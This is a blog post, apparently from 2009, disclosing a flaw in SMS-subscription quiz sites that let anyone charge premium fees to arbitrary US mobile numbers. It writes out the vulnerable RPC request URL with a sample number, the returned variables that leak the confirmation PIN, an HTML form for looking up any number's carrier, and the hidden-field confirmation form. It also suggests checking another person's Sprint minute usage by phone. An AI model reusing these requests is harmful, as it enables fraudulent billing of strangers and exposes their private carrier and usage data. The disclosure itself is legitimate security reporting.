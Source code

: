 ```yaml
---
title: "Security hole: charge money to any mobile number"
tags:
  - security
  - zero-day
old-link: https://privacylog.blogspot.com/2009/01/security-hole-in-sms-spam-websites.html
updates:
  - date: 2010-01-02
    changes: Posted full exploit
---
```


### Web 2.0 Programming Model and Security Concerns

The Web 2.0 paradigm introduces a new web programming model. However, with new programming models comes the risk of developer incompetence.

#### Old Model

```mermaid
graph TD;
    Client-->Server;
    Server-->Database;
```

#### New Model

```mermaid
graph TD;
    Client-->Server;
    Client-->Database;
```

The problem with the new model is that the database is now another source of entry. It's crucial to remember that if a client is making a request to your server, you need to scrutinize that request every time.

### SMS Spam Websites

Examples of SMS spam websites include:

- [triviaspace.net/US1](https://www.triviaspace.net/US1/)
- [iqlovetestv0.iqlovetest.com](https://iqlovetestv0.iqlovetest.com/)
- [thankyoupath.com/landing_pages/quiz_dating](https://www.thankyoupath.com/landing_pages/quiz_dating/)

![Screenshot](/assets/images/2009-01-17-security-hole-in-sms-spam-websites.webp)

### Exploit Example

After completing a quiz, your browser may be asked to load a script like this:

```
https://rpcus1.z-sms.com/HttpRpc/IQ_Pin_US.php?CarrierCompliant=no&Score=17&IP=1.2.3.4&Host=&Name=&Starsign=&Source=41152&Number=2152223456&Service=WEEKLY_TRIVIA_44999_999&ShortCode=44999&Message=Haha!&MessageVer=Haha&MessageATT=Haha
```

This script loads something like:

```
javascript
Copy code
var Provider = 'tmobile';
var Code = 1777;
var LoversName = 'CHARLIE';
var IQ = '85';
var Origin = '';
var Meaning = '';
var Tester1 = '987';
var Tester2 = '7555';
var Tester3 = '987';
```

You can use this Web API to learn the service provider for any phone number in the US (works for most numbers):

```html
<form action="https://rpcus1.z-sms.com/HttpRpc/IQ_Pin_US.php" method="get" target="_new">
    Phone number: <input name="Number"><br>
    (do not use dashes here)<br>
    <input type="submit" value="Get provider">
</form>
```

After you get that page, read the `var Provider='...'` part. If it's a Sprint number, you can call 888-211-4727 to see how many minutes were used by that phone number in the past month.

If you used a URL like the one above for your first request, you would also get a `Code=###` part. That code could be input into a page like this:

```html
<form action="https://www.triviaspace.net/US1/confirm.php?a=41152" method="post" name="form1" onsubmit="Validate(txtPin)">
    <input id="Service" name="Service" value="WEEKLY_TRIVIA_44999_999" type="hidden">
    <input id="Shortcode" name="Shortcode" value="44999" type="hidden">
    <input id="Provider" name="Provider" value="" type="hidden">
    <input id="RealPin" name="RealPin" value="" type="hidden">
    <input id="Portal" name="Portal" value="TheIqQuiz.com" type="hidden">
    <input id="LoversName" name="LoversName" value="" type="hidden">
    <input id="IQ" name="IQ" value="" type="hidden">
    <input id="Origin" name="Origin" value="" type="hidden">
    <input id="Meaning" name="Meaning" value="" type="hidden">
    <input id="fPin" maxlength="5" name="txtPin" type="hidden">
</form>
```

Now... ~~I'm not giving you the full details to run this request~~. **See update below**. But, if you followed through, the result is a simple Web API that allows you to charge money on the phone bill of arbitrary mobile phone users. That's what I call a failure in security.
